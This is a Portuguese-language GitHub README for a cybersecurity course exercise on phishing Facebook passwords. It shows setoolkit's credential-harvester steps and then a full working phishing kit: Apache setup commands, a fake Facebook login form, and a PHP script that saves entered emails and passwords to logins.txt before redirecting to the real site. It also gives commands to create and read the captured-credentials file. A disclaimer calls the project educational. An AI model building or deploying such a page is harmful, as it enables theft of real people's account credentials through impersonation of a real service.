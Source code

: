 # cibersecurity-desafio-phishing
Phishing para captura de senhas do Facebook

Ferramentas

Kali Linux

setoolkit

Configurando o Phishing no Kali Linux

Acesso root: sudo su

Iniciando o setoolkit: 

Tipo de ataque: Social-Engineering Attacks

Vetor de ataque: Web Site Attack Vectors

Método de ataque: Credential Harvester Attack Method 

Método de ataque: Site Cloner

Obtendo o endereço da máquina: ifconfig

URL para clone: http://www.facebook.com



![Captura de tela 2025-06-11 091900](https://github.com/user-attachments/assets/5e1a7afe-ff99-41b7-94c6-5abbae6526c0)
ss

sobre a imagem acima

Nesse  caso, não aparece diretamente um "username" ou "password" legível. Isso pode acontecer quando:

O site clonado não usa formulários padrão (como o Facebook, que usa JavaScript avançado e AJAX).

Os dados são enviados em partes criptografadas ou com tokens.

por isso ocorreu o erro.

eu consegui fazer mais de outra forma fazendo uma pagina fake do facebook

#  Página Falsa do Facebook para Captura Simulada de Login

⚠️ **ATENÇÃO**: Este projeto é estritamente para fins educacionais e deve ser utilizado apenas em ambientes controlados e com autorização. **Não utilize este código para fins ilegais ou maliciosos.**

---

## 🎯 Objetivo

Simular uma página de login com aparência semelhante ao Facebook, capturar os dados digitados (e-mail e senha), armazená-los localmente e redirecionar o usuário para o site verdadeiro do Facebook. Projeto voltado para fins de estudo em **cibersegurança e engenharia social**.

---

## 🧰 Tecnologias e Ferramentas Usadas

- Kali Linux (VirtualBox)
- 
- Apache2
- 
- HTML + CSS
- 
- PHP
- 
- Bash (comandos de terminal)

---

## 🛠️ Etapas do Projeto

### 1. Instalação e execução do Apache


sudo apt update

sudo apt install apache2

sudo systemctl start apache2

sudo systemctl enable apache2

### 2. Verificar se o Apache está rodando

sudo systemctl status apache2

Você deve ver algo como:

Active: active (running)

### 3. Descobrir o IP local da máquina

ip a

Procure uma linha como:

inet 192.168.1.5/24

Esse será o IP para acessar a página falsa:

192.168.1.5

🧩 Arquivos do Projeto

index.html
Página de login falsa com visual semelhante ao Facebook.

<form method="POST" action="process_login.php">
  <input type="text" name="email" placeholder="Email ou telefone" required />
  <input type="password" name="password" placeholder="Senha" required />
  <button type="submit">Entrar</button>
</form>

Salve como:

sudo nano /var/www/html/index.html

process_login.php
Script que recebe os dados do formulário, salva no arquivo logins.txt e redireciona para o Facebook verdadeiro.

<?php
if ($_SERVER["REQUEST_METHOD"] === "POST") {
    $email = $_POST['email'] ?? '';
    $password = $_POST['password'] ?? '';
    file_put_contents("logins.txt", "Email: $email | Senha: $password\n", FILE_APPEND);
    header("Location: https://www.facebook.com");
    exit();
} else {
    echo "Método inválido.";
}
?>

Salve como:

sudo nano /var/www/html/process_login.php

logins.txt
Arquivo onde os dados capturados serão armazenados.

sudo touch /var/www/html/logins.txt
sudo chmod 666 /var/www/html/logins.txt


✅ Teste Final
Acesse: http://192.168.1.5

Preencha e envie o formulário

Verifique se você foi redirecionado para o site real

Veja os dados capturados:

cat /var/www/html/logins.txt

## Exemplo de Captura

![Image](https://github.com/user-attachments/assets/0e42d494-94c1-46f6-a9be-f60cf48fe8a5)


![Image](https://github.com/user-attachments/assets/e559111f-3d7e-4630-a9fb-f241a1f84f7c)
